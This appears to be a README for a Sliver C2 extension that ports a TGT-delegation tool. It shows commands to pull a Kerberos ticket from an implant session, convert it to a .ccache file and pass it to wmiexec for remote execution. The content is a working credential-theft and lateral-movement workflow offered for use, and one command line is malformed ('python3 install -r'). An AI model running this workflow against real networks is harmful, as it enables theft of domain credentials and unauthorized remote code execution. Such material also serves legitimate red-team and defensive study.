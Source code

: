 # tgtdeleg
https://github.com/connormcgarr/tgtdelegation for use with `sliver`

all credit to @connormcgarr

meant for living-above-the-land while avoiding `execute-assembly` as much as possible.


#### install
install with `extensions load <folder>`&`extensions install <folder>`


#### use
```
sliver (SESSION)> tgtdeleg 0 currentdomain default
# in a separate console
python3 install -r tgtParse/requirements.txt
python3 tgtParse/tgtParse.py --apreq <asreq> --sessionkey <key> --etype AES-256

# converts to .ccache automatically
export KRB5CCNAME=
python3 wmiexec.py -k ...
```
